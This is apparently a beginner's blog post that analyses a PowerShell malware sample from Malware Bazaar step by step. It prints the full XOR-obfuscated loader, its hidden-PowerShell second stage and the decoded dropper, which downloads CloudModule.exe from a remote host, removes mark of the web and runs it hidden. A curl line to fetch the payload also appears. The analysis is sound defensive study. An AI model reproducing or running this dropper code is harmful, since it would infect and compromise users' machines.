


+++
title = "trying malware analysis for the first time"
date = 2026-05-24
draft = false
+++


This is my first time doing malware analysis. I'll start off with a simple .ps1 script that is going by the name trigger.ps1 on Malware Bazaar.

https://bazaar.abuse.ch/sample/26a75f3fb33c5c57ec30345dd2abb2118a8c729e0b8b1058a215874da497711a/#file_info

First, I downloaded the zip to my remnux VM and unzip-ed it. The password for such folders is always or mostly `infected`. 

Its just a .ps1 file so just open it in vs code and take a look.

```powershell
<# Verification code: 0949AFF64ACB #>  $_2f02d2='CrwLa3M';$_5fa7f2='672d467a54047c7b4f50683e0b74274b11755c6819260a0362245d2e2c161e22066e777927230a591d0a26062438135a23245a2c0f0e5d3b260003115b090b311d1a0e00402875462438135a23245a506b3602037611441e0d511e763d2d1430461871240e280c5f271924353a0064787326200a146a1a271e14205105022f3c1b15526534222a2579347b07351630750b517f344b207d2f062e70201b2e320602192a263934011b29162f061157052f23142158032f713c012e276178203521282e593d16103f01197e273019131850511b0424432822060b211f393a3b74213628467c577c211527252606461f71244719526134222542222a75390710457953691509422f180e051f2d38012e3479252040227e2f750373111a20146934241c2e19096000043c3e1835690026261b3d38582e763f213c2952090528152158021a144304020a4434161c391d2c5f3d34251c1d167e0876202718515d0610194006296274101f4e3c035a7c122b2f1e0e7a0e111e152238051b062439192272221443397902001f2f1024792b673476232e14335c15171d411e53657d161f31393b747437201a20126918761a151b345c06101940180c657e0f271b7c3b647d243e222051691a72271214235f040620072f0c652727354e3504600c3727300a51520e0219130f20471f2e4b0e155365751741217c2d66787210303b56790a1a4b242158432f2a4326153961220a31257c2870290710307550690872042d0437401710471b292666230c0b253a00497d343d4516175024241916185144023a20070522023e2731367d28707c2b101a1d067f1a7604130f20582f7101400626583f080b1b7b057b07761747201457207a002d1f506b171438241639757c192a397c28707c15111a2706790516153b19095f1414201b2f0f7e2a123a042236707c1713201d0f631e271b2e362f5f0217274701357d250d08212738591f2828330a0b7e090e462e1b345d2b1033031a397d21201931223b6478733b34282f517e3302150b195b013927020122722215401b393b747470110e0e2e650e020a3a0f5544023a302f2d36077f0d36042b0477147339240e23500501012d1a055f1428060728220b7c0e0814392c491424393238286508723f3b0f23402c14061b052457211a40033a2a600f07133f0617511a16043a182849012933020122073a0a3439243b5e0b3a132474507e3720073a36385d040043272839610a22250f2028701f2e3b347d37507f15312e142f431472301f2f0f7d3d211f142b2d651f3310201a17571511262d1b2c540307270003535f200834252002001c3727300a51520e02192d250d0407044b051c35757419250f363b6b391716300a18570e7226150b375f2e0033031953652721404227024a0c3a142f7d0b6a151118160415672904340e282202192135212002700c3727451a0b517f76191435204a2b1b42402d366a220f25423a05700c2c24301a1b570e72232e14335c0400201a07325f7a192a1f3c057b7d7424207908510a7a18163550742c140a1b0522021c1a2a252328701f2e3b347d27502309041427275929041e012e08711922250f20035d1f3017220217512311021522375f023a2011010b54780e25323531670c74281a7518780e11143808375e03713f441c35727a09344f782f6414702b0d2f067f1a3b423e082c540114340216227239211f4e7c28701f253f1d2b547e1a060b383533550207241a02537e7e080b043c04001f3a172f385150232f45227f335b2e2d23031929793b1a402136024a0c37201a2012691b011a130b065407042b100037573d211f253a050203731720340d7a082b022d0b335f2f2a33031e39793421413d0e38001f3310457806667e110414045059141b201d2d2947192735313505707c12111a750b69150d083e0f50742c140a1b1926757d223136273b5a0c37202f0618517e09302e7f33432f7146101952613b203a477b2b75753a3d3327196a190a4b3a145059141b201d2d2947192735313505707c1710301a0d500e0206227e37592f71471c2f187234252a477b4614646a491e291913691c4a4e28585574644924380041396e22052302563e30525a1b085d292c052438185f28633a1e280556236302183b04413e2b171b20411e0c31150221045d390f1b04384114600d1d273e0e55242f175060461e1a2a1c13231660393a1e126b4d14052a1613290f1461645f34230c5e2c2d165060456c7c7547407d5908283b1b03';$_6273d8='';for($_09df73=0;$_09df73 -lt $_5fa7f2.Length;$_09df73+=2){$_6273d8+=[char](([convert]::ToInt32($_5fa7f2.Substring($_09df73,2),16))-bxor[int][char]$_2f02d2[$_09df73/2%$_2f02d2.Length])};iex $_6273d8
```

After fixing the formatting of the code and renaming the variables to something understandable the code looks like:

```powershell
$_key='CrwLa3M';

$_enc='672d467a54047c7b4f50683e0b74274b11755c6819260a0362245d2e2c161e22066e777927230a591d0a26062438135a23245a2c0f0e5d3b260003115b090b311d1a0e00402875462438135a23245a506b3602037611441e0d511e763d2d1430461871240e280c5f271924353a0064787326200a146a1a271e142051... [snip] ... 60456c7c7547407d5908283b1b03';

$_final='';

# hex value -> xor with key -> decoded
for($index=0;
    $index -lt $_enc.Length;$index+=2){
    $_final+=[char](([convert]::ToInt32($_enc.Substring($index,2),16))-bxor[int][char]$_key[$index/2%$_key.Length])
};

iex $_final
```

The `$_key` is the XOR key that is used to decode the value stored in `$_enc` variable. A simple python script that will decode the XOR using the key.

```python
key = 'CrwLa3M'

encrypted_hex = '672d467a54047c7b4f50683e0b74274b11755c6819260a0362245d2e2c161e22066e777927230a591d0a26062438135a23245a2c0f0e5d3b260003115b090b311d1a0e00402875462438135a23245a506b3602037611441e0d511e763d2d1430461871240e280c5f271924353a0064787326200a146a1a271e142051... [snip] ... 60456c7c7547407d5908283b1b03'

# convert hex string to bytes
encrypted_bytes = bytes.fromhex(encrypted_hex)

# xor decode
decoded_bytes = bytearray()
key_bytes = key.encode('utf-8')

for i in range(len(encrypted_bytes)):
    decoded_bytes.append(encrypted_bytes[i] ^ key_bytes[i % len(key_bytes)])

# convert to string and print
decoded_string = decoded_bytes.decode('utf-8', errors='ignore')
print(decoded_string)
```

And the output we get is:

```powershell
$_165718='$_89d9f9=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String(''W1N5c3RlbS5OZXQuU2VydmljZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2w9W1N5c3RlbS5OZXQuU2VjdXJpdHlQcm90b2NvbFR5cGVdOjpUbHMxMjskdT1bVGV4dC5FbmNvZGluZ106OlVURjguR2V0U3RyaW5nKFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnYUhSMGNITTZMeTlqYkc5MVpHaDFZbm91WW1sNkwyUnNQMlpwWkQwME5RPT0nKSk7JHQ9Sm9pbi1QYXRoICRlbnY6VEVNUCAoW1N5c3RlbS5JTy5QYXRoXTo6R2V0UmFuZG9tRmlsZU5hbWUoKSk7TmV3LUl0ZW0gLUl0ZW1UeXBlIERpcmVjdG9yeSAtUGF0aCAkdCAtRm9yY2V8T3V0LU51bGw7JGY9Sm9pbi1QYXRoICR0ICdDbG91ZE1vZHVsZS5leGUnOyRvaz0wO2ZvcigkaT0wOyRpIC1sdCA1IC1hbmQgLW5vdCAkb2s7JGkrKyl7dHJ5e0ludm9rZS1XZWJSZXF1ZXN0IC1VcmkgJHUgLUhlYWRlcnMgQHsnWC1TaWQnPSdiYzNlOTU0MTNhNzVkYjRkZDFjMDM4YWUnfSAtVXNlckFnZW50ICdNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvMTIzLjAuMC4wIFNhZmFyaS81MzcuMzYnIC1PdXRGaWxlICRmIC1Vc2VCYXNpY1BhcnNpbmcgLVRpbWVvdXRTZWMgNDUwO2lmKFRlc3QtUGF0aCAkZil7JG9rPTF9ZWxzZXtTdGFydC1TbGVlcCAtU2Vjb25kcyAyfX1jYXRjaHtTdGFydC1TbGVlcCAtU2Vjb25kcyAyfX07aWYoLW5vdCAoVGVzdC1QYXRoICRmKSl7ZXhpdH07VW5ibG9jay1GaWxlIC1QYXRoICRmIC1FcnJvckFjdGlvbiBTaWxlbnRseUNvbnRpbnVlOyRfMjg5MWEyPTA7Zm9yKCRfODVmN2M3PTA7JF84NWY3YzcgLWx0IDMgLWFuZCAtbm90ICRfMjg5MWEyOyRfODVmN2M3Kyspe3RyeXt0cnl7U3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggJGYgLVdpbmRvd1N0eWxlIEhpZGRlbiAtRXJyb3JBY3Rpb24gU3RvcH1jYXRjaHtTdGFydC1Qcm9jZXNzIC1GaWxlUGF0aCAkZiAtRXJyb3JBY3Rpb24gU3RvcH07JF8yODkxYTI9MX1jYXRjaHtTdGFydC1TbGVlcCAtU2Vjb25kcyAyfX07''));iex $_89d9f9';Start-Process -WindowStyle Hidden powershell -ArgumentList '-NoProfile','-WindowStyle','Hidden','-Command',$_165718;exit
```

Again, bad formatting but we can make out that its base64 and its trying to iex something run powershell in hidden mode which is never good.

```powershell
$_payload='$_dec=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String(''W1N5c3RlbS5OZXQuU2VydmljZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2w9W1N5c3RlbS5OZXQuU2VjdXJpdHlQcm90b2NvbFR5cGVdOjpUbHMxMjskdT1bVGV4dC5FbmNvZGluZ106OlVURjguR2V0U3RyaW5nKFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnYUhSMGNITTZMeTlqYkc5MVpHaDFZbm91WW1sNkwyUnNQMlpwWkQwME5RPT0nKSk7JHQ9Sm9pbi1QYXRoICRlbnY6VEVNUCAoW1N5c3RlbS5JTy5QYXRoXTo6R2V0UmFuZG9tRmlsZU5hbWUoKSk7TmV3LUl0ZW0gLUl0ZW1UeXBlIERpcmVjdG9yeSAtUGF0aCAkdCAtRm9yY2V8T3V0LU51bGw7JGY9Sm9pbi1QYXRoICR0ICdDbG91ZE1vZHVsZS5leGUnOyRvaz0wO2ZvcigkaT0wOyRpIC1sdCA1IC1hbmQgLW5vdCAkb2s7JGkrKyl7dHJ5e0ludm9rZS1XZWJSZXF1ZXN0IC1VcmkgJHUgLUhlYWRlcnMgQHsnWC1TaWQnPSdiYzNlOTU0MTNhNzVkYjRkZDFjMDM4YWUnfSAtVXNlckFnZW50ICdNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvMTIzLjAuMC4wIFNhZmFyaS81MzcuMzYnIC1PdXRGaWxlICRmIC1Vc2VCYXNpY1BhcnNpbmcgLVRpbWVvdXRTZWMgNDUwO2lmKFRlc3QtUGF0aCAkZil7JG9rPTF9ZWxzZXtTdGFydC1TbGVlcCAtU2Vjb25kcyAyfX1jYXRjaHtTdGFydC1TbGVlcCAtU2Vjb25kcyAyfX07aWYoLW5vdCAoVGVzdC1QYXRoICRmKSl7ZXhpdH07VW5ibG9jay1GaWxlIC1QYXRoICRmIC1FcnJvckFjdGlvbiBTaWxlbnRseUNvbnRpbnVlOyRfMjg5MWEyPTA7Zm9yKCRfODVmN2M3PTA7JF84NWY3YzcgLWx0IDMgLWFuZCAtbm90ICRfMjg5MWEyOyRfODVmN2M3Kyspe3RyeXt0cnl7U3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggJGYgLVdpbmRvd1N0eWxlIEhpZGRlbiAtRXJyb3JBY3Rpb24gU3RvcH1jYXRjaHtTdGFydC1Qcm9jZXNzIC1GaWxlUGF0aCAkZiAtRXJyb3JBY3Rpb24gU3RvcH07JF8yODkxYTI9MX1jYXRjaHtTdGFydC1TbGVlcCAtU2Vjb25kcyAyfX07''));iex $_dec';

Start-Process -WindowStyle Hidden powershell -ArgumentList '-NoProfile','-WindowStyle','Hidden','-Command',$_payload

exit
```

Lets just decode the the base64 in our terminal and see what is going on here. 

```powershell
[System.Net.ServicePointManager]::SecurityProtocol=[System.Net.SecurityProtocolType]::Tls12;$u=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('aHR0cHM6Ly9jbG91ZGh1YnouYml6L2RsP2ZpZD00NQ=='));$t=Join-Path $env:TEMP ([System.IO.Path]::GetRandomFileName());New-Item -ItemType Directory -Path $t -Force|Out-Null;$f=Join-Path $t 'CloudModule.exe';$ok=0;for($i=0;$i -lt 5 -and -not $ok;$i++){try{Invoke-WebRequest -Uri $u -Headers @{'X-Sid'='bc3e95413a75db4dd1c038ae'} -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' -OutFile $f -UseBasicParsing -TimeoutSec 450;if(Test-Path $f){$ok=1}else{Start-Sleep -Seconds 2}}catch{Start-Sleep -Seconds 2}};if(-not (Test-Path $f)){exit};Unblock-File -Path $f -ErrorAction SilentlyContinue;$_2891a2=0;for($_85f7c7=0;$_85f7c7 -lt 3 -and -not $_2891a2;$_85f7c7++){try{try{Start-Process -FilePath $f -WindowStyle Hidden -ErrorAction Stop}catch{Start-Process -FilePath $f -ErrorAction Stop};$_2891a2=1}catch{Start-Sleep -Seconds 2}};
```

Also I'll fix the formatting at once and add comments so it is easier to understand and for my reference as well.

```powershell
# force set tls version to 1.2
[System.Net.ServicePointManager]::SecurityProtocol=[System.Net.SecurityProtocolType]::Tls12;

# base64 decode url
$u=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('aHR0cHM6Ly9jbG91ZGh1YnouYml6L2RsP2ZpZD00NQ=='));

# create a random directory in temp folder
$t=Join-Path $env:TEMP ([System.IO.Path]::GetRandomFileName());

# name of the malicious .exe that gets downloaded in temp
New-Item -ItemType Directory -Path $t -Force|Out-Null;$f=Join-Path $t 'CloudModule.exe';

# actually download the .exe with a custom user-agent
$ok=0;for($i=0;$i -lt 5 -and -not $ok;$i++){try{Invoke-WebRequest -Uri $u -Headers @{'X-Sid'='bc3e95413a75db4dd1c038ae'} -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' -OutFile $f -UseBasicParsing -TimeoutSec 450;

# check if download successful
if(Test-Path $f){$ok=1}else{Start-Sleep -Seconds 2}}catch{Start-Sleep -Seconds 2}};

# exit if download failed
if(-not (Test-Path $f)){exit};

# remove motm (mark of the web)
Unblock-File -Path $f -ErrorAction SilentlyContinue;$_2891a2=0;

# execute file 
for($_85f7c7=0;$_85f7c7 -lt 3 -and -not $_2891a2;$_85f7c7++){try{try{Start-Process -FilePath $f -WindowStyle Hidden -ErrorAction Stop}catch{Start-Process -FilePath $f -ErrorAction Stop};

# mark successful execution
$_2891a2=1}catch{Start-Sleep -Seconds 2}}

```

There is a lot of stuff going on here. The base64 URL converts to `https://cloudhubz[.]biz/dl?fid=45` and it creates a random folder in `C:\Temp` directory and downloads `CloudModule.exe`. 

The script also tries a few times to download it and remove the MOTM and tries to run the `.exe`.

So using the custom header using curl lets download the `CloudModule.exe`.

```shell
curl -L -o CloudModule.exe -H "X-Sid: bc3e95413a75db4dd1c038ae" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36" "https://cloudhub[.]biz/dl?fid=45"
```

But this was a unsuccessful attempt. As the website is supposedly down. 



So unfortunately I wasn't able to get the .exe file. But if I find it either I'll update this post or write a new one. But I don't know if I'll be able to reverse engineer an .exe or not.



But anyways thank you for reading.